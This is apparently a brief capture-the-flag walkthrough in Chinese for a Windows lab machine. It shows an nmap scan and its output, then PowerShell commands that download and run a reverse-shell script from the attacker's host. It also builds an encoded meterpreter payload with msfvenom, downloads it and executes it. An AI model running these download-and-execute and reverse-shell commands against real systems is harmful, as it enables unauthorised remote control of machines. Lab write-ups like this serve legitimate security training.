 #  服务扫描
─#  nmap -sT -Pn 10.10.26.252
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-23 05:52 EDT
Nmap scan report for 10.10.26.252
Host is up (0.32s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 19.05 seconds


#  上传一个shell，并且获得一个反弹shell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.13.21.169:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.13.21.169 -Port 4443


#  查找user.txt文件
Get-ChildItem -Path C:\ -Recurse -Include user.txt

#  升级一个shell，以便在msf里使用
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.21.169 LPORT=4444 -f exe -o shell.exe

#  在反弹shell里面下载上面的文件
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.21.169:8000/shell.exe','shell.exe')"


#  执行shell
Start-Process "shell.exe"
